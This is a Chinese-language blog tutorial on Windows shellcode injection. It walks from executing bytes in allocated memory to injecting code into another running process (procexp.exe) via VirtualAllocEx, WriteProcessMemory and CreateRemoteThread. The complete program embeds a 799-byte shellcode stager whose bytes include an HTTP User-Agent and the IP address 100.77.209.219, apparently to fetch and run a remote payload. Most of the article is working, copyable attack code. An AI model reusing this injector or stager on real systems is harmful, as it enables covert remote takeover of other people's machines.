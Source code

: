 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/3hQP09l36ssrV5tzpzwcVA)

shellcode 注入原理

我们直接写入可能无法执行

```
unsigned char data\[130\] = {    0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x0C, 0xC7, 0x45, 0xF8, 0x00, 0x00, 0x40, 0x00, 0x8B, 0x45, 0xF8,    0x0F, 0xB7, 0x08, 0x81, 0xF9, 0x4D, 0x5A, 0x00, 0x00, 0x74, 0x04, 0x33, 0xC0, 0xEB, 0x5F, 0x8B,    0x55, 0xF8, 0x8B, 0x45, 0xF8, 0x03, 0x42, 0x3C, 0x89, 0x45, 0xFC, 0x8B, 0x4D, 0xFC, 0x81, 0x39,    0x50, 0x45, 0x00, 0x00, 0x74, 0x04, 0x33, 0xC0, 0xEB, 0x44, 0x8B, 0x55, 0xFC, 0x0F, 0xB7, 0x42,    0x18, 0x3D, 0x0B, 0x01, 0x00, 0x00, 0x74, 0x04, 0x33, 0xC0, 0xEB, 0x32, 0x8B, 0x4D, 0xFC, 0x83,    0x79, 0x74, 0x0E, 0x77, 0x04, 0x33, 0xC0, 0xEB, 0x25, 0xBA, 0x08, 0x00, 0x00, 0x00, 0x6B, 0xC2,    0x0E, 0x8B, 0x4D, 0xFC, 0x83, 0x7C, 0x01, 0x78, 0x00, 0x74, 0x09, 0xC7, 0x45, 0xF4, 0x01, 0x00,    0x00, 0x00, 0xEB, 0x07, 0xC7, 0x45, 0xF4, 0x00, 0x00, 0x00, 0x00, 0x8B, 0x45, 0xF4, 0x8B, 0xE5,    0x5D, 0xC3};typedef void(\*PFN\_FOO)();int main(){    PFN\_FOO f = (PFN\_FOO)(void \*)data;    f();
```

无法执行

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9daZbNBsJluBLOgoXDqWME7qNap1j8v3a7z0P6ElwrfDHcltXGmxy55P2jCEKrwrAAsXvPGCBB0A/640?wx_fmt=png)

可以看到可读可写不可执行，修改保存就行了 因为 shellcode 在程序的全局区，没有可执行权限，代码所在内存必须可读可执行，但是重新编译不行，因为重新编译了就变了，所以还可以在当前程序申请一块可写可读可执行的代码区

**VirtualAlloc**

```
LPVOID VirtualAlloc(  LPVOID lpAddress,        // region to reserve or commit  SIZE\_T dwSize,           // size of region  DWORD flAllocationType,  // type of allocation  DWORD flProtect          // type of access protection);
```

这里来申请一块

```
LPVOID lpAddr = VirtualAlloc(            NULL,    //表示任意地址，随机分配            1,    //内存通常是以分页为单位来给空间 1页=4k 4096字节            MEM\_COMMIT,    //告诉操作系统给分配一块内存            PAGE\_EXECUTE\_READWRITE        );    if (lpAddr == NULL){        printf("Alloc error!");        return 0;    }
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9daZbNBsJluBLOgoXDqWME6cK4KmdfB376zR6sZSmHSSehKDOeIkzZP2yJUqZN7bK4hoicIiaceibkA/640?wx_fmt=png)

可以看到内存已经申请好了，接下来就把我们的数据拷贝过来，再执行，最后还要释放掉

```
memcpy(lpAddr, data, sizeof(data));typedef void(\*PFN\_FOO)();PFN\_FOO f = (PFN\_FOO)(void\*)lpAddr;f();VirtualFree(lpAddr,1,MEM\_DECOMMIT);
```

完整代码

```
unsigned char data\[130\] = {    0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x0C, 0xC7, 0x45, 0xF8, 0x00, 0x00, 0x40, 0x00, 0x8B, 0x45, 0xF8,    0x0F, 0xB7, 0x08, 0x81, 0xF9, 0x4D, 0x5A, 0x00, 0x00, 0x74, 0x04, 0x33, 0xC0, 0xEB, 0x5F, 0x8B,    0x55, 0xF8, 0x8B, 0x45, 0xF8, 0x03, 0x42, 0x3C, 0x89, 0x45, 0xFC, 0x8B, 0x4D, 0xFC, 0x81, 0x39,    0x50, 0x45, 0x00, 0x00, 0x74, 0x04, 0x33, 0xC0, 0xEB, 0x44, 0x8B, 0x55, 0xFC, 0x0F, 0xB7, 0x42,    0x18, 0x3D, 0x0B, 0x01, 0x00, 0x00, 0x74, 0x04, 0x33, 0xC0, 0xEB, 0x32, 0x8B, 0x4D, 0xFC, 0x83,    0x79, 0x74, 0x0E, 0x77, 0x04, 0x33, 0xC0, 0xEB, 0x25, 0xBA, 0x08, 0x00, 0x00, 0x00, 0x6B, 0xC2,    0x0E, 0x8B, 0x4D, 0xFC, 0x83, 0x7C, 0x01, 0x78, 0x00, 0x74, 0x09, 0xC7, 0x45, 0xF4, 0x01, 0x00,    0x00, 0x00, 0xEB, 0x07, 0xC7, 0x45, 0xF4, 0x00, 0x00, 0x00, 0x00, 0x8B, 0x45, 0xF4, 0x8B, 0xE5,    0x5D, 0xC3};int main(){    LPVOID lpAddr = VirtualAlloc(            NULL,    //表示任意地址，随机分配            1,    //内存通常是以分页为单位来给空间 1页=4k 4096字节            MEM\_COMMIT,    //告诉操作系统给分配一块内存            PAGE\_EXECUTE\_READWRITE        );    if (lpAddr == NULL){        printf("Alloc error!");        return 0;    }    //到这里表示能够成功分配内存    memcpy(lpAddr, data, sizeof(data));    typedef void(\*PFN\_FOO)();    PFN\_FOO f = (PFN\_FOO)(void\*)lpAddr;    f();    VirtualFree(lpAddr,1,MEM\_DECOMMIT);    return 0;
```

这里我们本地写个 messagebox，可以看到 helloworld 是再常量区地址为 0C65858h，但是函数的引用地址却在 0C6916Ch，他们之间是有强烈的依赖关系，所以我们如果直接把代码抽出来是无法利用的

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9daZbNBsJluBLOgoXDqWME8PCwzQmgdcb30XamZibSV1OyDAHFmfONIIZ3v5e9Kk1Oicf9IRETn6Eg/640?wx_fmt=png)

所以如果上面我们想要执行成功就要处理掉相关依赖，比如相关函数的地址，字符串地址 自己重定位了，shellcode：一段与地址无关的代码，只要把它放在任意 32 位程序中只要给他一个起点就能执行 所以我们要先开辟空间然后再写入，然是可以看到 VirtualAlloc 写了谁调用在谁哪里开辟空间

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9daZbNBsJluBLOgoXDqWMEGdUaaexMNAOFiazia9qia68TthWs8FoaEw1qj1NPD3EY2Vlves16wP5jg/640?wx_fmt=png)

所以我们就用加强版 VirtualAllocEx, 它可以在指定进程去开辟 **VirtualAllocEx**

```
LPVOID VirtualAllocEx(  HANDLE hProcess,          // process to allocate memory  LPVOID lpAddress,         // desired starting address   SIZE\_T dwSize,            // size of region to allocate  DWORD flAllocationType,   // type of allocation  DWORD flProtect           // type of access protection);
```

代码差不多，但是这里我们要先获取我们要注入的进程句柄，这里 shellcode 为 32 位所以我们需要获取的也是 32 位的

```
//获取快照    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS\_SNAPPROCESS, 0);    PROCESSENTRY32 pe32;    DWORD pid = 0;    pe32.dwSize = sizeof(PROCESSENTRY32);    //查看第一个进程    BOOL bRet = Process32First(hSnap, &pe32);    while (bRet)    {        bRet = Process32Next(hSnap, &pe32);        if (wcscmp(pe32.szExeFile, L"procexp.exe") == 0){            pid = pe32.th32ProcessID;            break;        }    }    //获取进程句柄    HANDLE hProcess = OpenProcess(PROCESS\_ALL\_ACCESS, FALSE, pid);
```

就是昨天的代码，然后再来开辟一个空间

```
//1.在目标进程开辟空间    LPVOID lpAddr = VirtualAllocEx(        hProcess,    //在目标进程中开辟空间        NULL,    //表示任意地址，随机分配        1,    //内存通常是以分页为单位来给空间 1页=4k 4096字节        MEM\_COMMIT,    //告诉操作系统给分配一块内存        PAGE\_EXECUTE\_READWRITE        );    if (lpAddr == NULL){        printf("Alloc error!");        return 0;    }
```

然后我们就是要写入, 这里就不能使用 memcpy 了因为这个是当前进程调用的 **WriteProcessMemory**

```
BOOL WriteProcessMemory(  HANDLE hProcess,                // handle to process  LPVOID lpBaseAddress,           // base of memory area  LPCVOID lpBuffer,               // data buffer  SIZE\_T nSize,                   // count of bytes to write  SIZE\_T \* lpNumberOfBytesWritten // count of bytes written);
```

这里我们就写入进去

```
//2.在目标进程中写入代码    bRet = WriteProcessMemory(        hProcess,    //目标进程        lpAddr,    //目标地址    目标进程中        data,    //源数据    当前进程中        sizeof(data),    //写多大        &dwWritesBytes //成功写入的字节数        );    if (!bRet){        VirtualFreeEx(hProcess, lpAddr, 1, MEM\_DECOMMIT);        return 0;    }
```

写进去了还要调用才能执行, 创建远程线程 **CreateRemoteThread**

```
HANDLE CreateRemoteThread(  HANDLE hProcess,                          // handle to process  LPSECURITY\_ATTRIBUTES lpThreadAttributes, // SD  SIZE\_T dwStackSize,                       // initial stack size  LPTHREAD\_START\_ROUTINE lpStartAddress,    // thread function  LPVOID lpParameter,                       // thread argument  DWORD dwCreationFlags,                    // creation option  LPDWORD lpThreadId                        // thread identifier);
```

返回目标进程的线程

```
//3.向目标程序调用一个线程 创建远程线程  执行写入代码    HANDLE hRemoteThread = CreateRemoteThread(hProcess,    //目标进程        NULL,        0,        (LPTHREAD\_START\_ROUTINE)lpAddr,    //目标进程的回调函数        NULL,    //回调参数        0,        NULL        );
```

这里我们不要立马释放因为可能执行需要一段时间，所以要等待执行完毕再释放 完成代码为

```
// shellcode.cpp : 定义控制台应用程序的入口点。//#include "stdafx.h"#include <Windows.h>#include <TlHelp32.h>/\* length: 799 bytes \*/unsigned char data\[\] = "\\xfc\\xe8\\x89\\x00\\x00\\x00\\x60\\x89\\xe5\\x31\\xd2\\x64\\x8b\\x52\\x30\\x8b\\x52\\x0c\\x8b\\x52\\x14\\x8b\\x72\\x28\\x0f\\xb7\\x4a\\x26\\x31\\xff\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\xc1\\xcf\\x0d\\x01\\xc7\\xe2\\xf0\\x52\\x57\\x8b\\x52\\x10\\x8b\\x42\\x3c\\x01\\xd0\\x8b\\x40\\x78\\x85\\xc0\\x74\\x4a\\x01\\xd0\\x50\\x8b\\x48\\x18\\x8b\\x58\\x20\\x01\\xd3\\xe3\\x3c\\x49\\x8b\\x34\\x8b\\x01\\xd6\\x31\\xff\\x31\\xc0\\xac\\xc1\\xcf\\x0d\\x01\\xc7\\x38\\xe0\\x75\\xf4\\x03\\x7d\\xf8\\x3b\\x7d\\x24\\x75\\xe2\\x58\\x8b\\x58\\x24\\x01\\xd3\\x66\\x8b\\x0c\\x4b\\x8b\\x58\\x1c\\x01\\xd3\\x8b\\x04\\x8b\\x01\\xd0\\x89\\x44\\x24\\x24\\x5b\\x5b\\x61\\x59\\x5a\\x51\\xff\\xe0\\x58\\x5f\\x5a\\x8b\\x12\\xeb\\x86\\x5d\\x68\\x6e\\x65\\x74\\x00\\x68\\x77\\x69\\x6e\\x69\\x54\\x68\\x4c\\x77\\x26\\x07\\xff\\xd5\\x31\\xff\\x57\\x57\\x57\\x57\\x57\\x68\\x3a\\x56\\x79\\xa7\\xff\\xd5\\xe9\\x84\\x00\\x00\\x00\\x5b\\x31\\xc9\\x51\\x51\\x6a\\x03\\x51\\x51\\x68\\xae\\x08\\x00\\x00\\x53\\x50\\x68\\x57\\x89\\x9f\\xc6\\xff\\xd5\\xeb\\x70\\x5b\\x31\\xd2\\x52\\x68\\x00\\x02\\x40\\x84\\x52\\x52\\x52\\x53\\x52\\x50\\x68\\xeb\\x55\\x2e\\x3b\\xff\\xd5\\x89\\xc6\\x83\\xc3\\x50\\x31\\xff\\x57\\x57\\x6a\\xff\\x53\\x56\\x68\\x2d\\x06\\x18\\x7b\\xff\\xd5\\x85\\xc0\\x0f\\x84\\xc3\\x01\\x00\\x00\\x31\\xff\\x85\\xf6\\x74\\x04\\x89\\xf9\\xeb\\x09\\x68\\xaa\\xc5\\xe2\\x5d\\xff\\xd5\\x89\\xc1\\x68\\x45\\x21\\x5e\\x31\\xff\\xd5\\x31\\xff\\x57\\x6a\\x07\\x51\\x56\\x50\\x68\\xb7\\x57\\xe0\\x0b\\xff\\xd5\\xbf\\x00\\x2f\\x00\\x00\\x39\\xc7\\x74\\xb7\\x31\\xff\\xe9\\x91\\x01\\x00\\x00\\xe9\\xc9\\x01\\x00\\x00\\xe8\\x8b\\xff\\xff\\xff\\x2f\\x58\\x66\\x39\\x65\\x00\\xc8\\x03\\xfe\\x93\\x1a\\x5e\\x52\\x6d\\x5a\\x5d\\x0d\\x22\\x3c\\x47\\x8e\\x31\\x2d\\x7b\\xee\\xa8\\xc3\\x22\\x6b\\x24\\xb5\\x43\\x4d\\x44\\x35\\x96\\x5c\\x48\\xd7\\xed\\x39\\xcc\\xee\\xbf\\xde\\x49\\x49\\x3f\\x83\\x58\\xe9\\x48\\x1e\\x33\\xc7\\x49\\x50\\x48\\xd4\\x97\\xc7\\x14\\xf4\\x34\\x36\\x15\\x89\\x74\\x00\\x00\\xb2\\x0a\\xd7\\x63\\x86\\xdc\\x5e\\x9b\\x74\\x00\\x55\\x73\\x65\\x72\\x2d\\x41\\x67\\x65\\x6e\\x74\\x3a\\x20\\x4d\\x6f\\x7a\\x69\\x6c\\x6c\\x61\\x2f\\x35\\x2e\\x30\\x20\\x28\\x63\\x6f\\x6d\\x70\\x61\\x74\\x69\\x62\\x6c\\x65\\x3b\\x20\\x4d\\x53\\x49\\x45\\x20\\x39\\x2e\\x30\\x3b\\x20\\x57\\x69\\x6e\\x64\\x6f\\x77\\x73\\x20\\x4e\\x54\\x20\\x36\\x2e\\x31\\x3b\\x20\\x57\\x4f\\x57\\x36\\x34\\x3b\\x20\\x54\\x72\\x69\\x64\\x65\\x6e\\x74\\x2f\\x35\\x2e\\x30\\x3b\\x20\\x4c\\x42\\x42\\x52\\x4f\\x57\\x53\\x45\\x52\\x29\\x0d\\x0a\\x00\\x0b\\x81\\xc7\\x34\\x3d\\xa6\\xb5\\x8f\\x9a\\xeb\\x20\\x23\\xc5\\xb5\\xe6\\x9d\\x11\\x47\\x8e\\xc0\\x15\\xd9\\x15\\xc4\\x57\\x55\\x1a\\xd1\\xc7\\xcd\\xfc\\xa6\\xef\\xfe\\xe0\\x02\\xfc\\xaa\\x9e\\x73\\xf7\\x3c\\xa0\\xd8\\xef\\xae\\x42\\x73\\x79\\x7a\\x50\\xe2\\x04\\x6a\\xb3\\x1c\\x8e\\xd4\\xfa\\x11\\x0f\\x4d\\xe7\\x16\\xfe\\x22\\x29\\xa9\\x81\\x5b\\x45\\xf0\\xc6\\x90\\x97\\x49\\xf6\\x85\\xa3\\xf8\\xc8\\xf7\\x7d\\xcc\\xab\\x89\\x33\\x13\\x1a\\x76\\x30\\x03\\x10\\x7f\\x3e\\x67\\xe6\\x59\\xf9\\xbd\\x84\\x70\\x6e\\x2a\\x3a\\x1f\\x88\\x51\\xa8\\x26\\x89\\x0e\\x1b\\xba\\xef\\xaf\\xe8\\xc5\\x59\\xbf\\x4d\\xe5\\x47\\xad\\xef\\xc8\\x32\\x31\\xe8\\xb5\\x9d\\xf9\\xd6\\xea\\xf5\\x64\\xd6\\xf3\\xf6\\xb5\\xa0\\xc9\\x94\\xf0\\xbc\\xe5\\x5e\\x51\\xee\\x31\\x14\\xc7\\x94\\xf2\\x79\\x56\\x10\\xc5\\x56\\x04\\x85\\xa9\\x0a\\x36\\x7c\\x2d\\x4a\\x06\\xe2\\xcf\\x29\\x25\\x68\\xc7\\x9b\\x90\\xf6\\x8f\\x6a\\x9b\\xda\\xf7\\x2f\\x96\\x58\\x9c\\x44\\x15\\xf5\\xbf\\xe8\\x4d\\x82\\x31\\xcd\\x5f\\x39\\x6a\\xdf\\xd7\\xc3\\xb5\\x9c\\x21\\x23\\x85\\xbf\\x00\\x68\\xf0\\xb5\\xa2\\x56\\xff\\xd5\\x6a\\x40\\x68\\x00\\x10\\x00\\x00\\x68\\x00\\x00\\x40\\x00\\x57\\x68\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x93\\xb9\\x00\\x00\\x00\\x00\\x01\\xd9\\x51\\x53\\x89\\xe7\\x57\\x68\\x00\\x20\\x00\\x00\\x53\\x56\\x68\\x12\\x96\\x89\\xe2\\xff\\xd5\\x85\\xc0\\x74\\xc6\\x8b\\x07\\x01\\xc3\\x85\\xc0\\x75\\xe5\\x58\\xc3\\xe8\\xa9\\xfd\\xff\\xff\\x31\\x30\\x30\\x2e\\x37\\x37\\x2e\\x32\\x30\\x39\\x2e\\x32\\x31\\x39\\x00\\x6f\\xaa\\x51\\xc3";typedef void(\*PFN\_FOO)();int main(){    //获取快照    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS\_SNAPPROCESS, 0);    PROCESSENTRY32 pe32;    DWORD pid = 0;    pe32.dwSize = sizeof(PROCESSENTRY32);    //查看第一个进程    BOOL bRet = Process32First(hSnap, &pe32);    while (bRet)    {        bRet = Process32Next(hSnap, &pe32);        if (wcscmp(pe32.szExeFile, L"procexp.exe") == 0){            pid = pe32.th32ProcessID;            break;        }    }    //获取进程句柄    HANDLE hProcess = OpenProcess(PROCESS\_ALL\_ACCESS, FALSE, pid);    //1.在目标进程开辟空间    LPVOID lpAddr = VirtualAllocEx(        hProcess,    //在目标进程中开辟空间        NULL,    //表示任意地址，随机分配        1,    //内存通常是以分页为单位来给空间 1页=4k 4096字节        MEM\_COMMIT,    //告诉操作系统给分配一块内存        PAGE\_EXECUTE\_READWRITE        );    if (lpAddr == NULL){        printf("Alloc error!");        return 0;    }    DWORD dwWritesBytes = 0;    //2.在目标进程中写入代码    bRet = WriteProcessMemory(        hProcess,    //目标进程        lpAddr,    //目标地址    目标进程中        data,    //源数据    当前进程中        sizeof(data),    //写多大        &dwWritesBytes //成功写入的字节数        );    if (!bRet){        VirtualFreeEx(hProcess, lpAddr, 1, MEM\_DECOMMIT);        return 0;    }    //3.向目标程序调用一个线程 创建远程线程 执行写入代码    HANDLE hRemoteThread = CreateRemoteThread(hProcess,    //目标进程        NULL,        0,        (LPTHREAD\_START\_ROUTINE)lpAddr,    //目标进程的回调函数        NULL,    //回调参数        0,        NULL        );    return 0;}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9daZbNBsJluBLOgoXDqWMEgz1V9VyzVL01pNia4l1nAVatmnGX1XK4V4dAM2CaqSvcB4iaRR15CHAQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9daZbNBsJluBLOgoXDqWMEZGibFvNAWbTsz0hODFvTia8aBeYr56Q1ldXyMVMU97GTcDB70UicQ5Fag/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**点赞 转发 在看**

原创投稿作者：一寸一叶

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)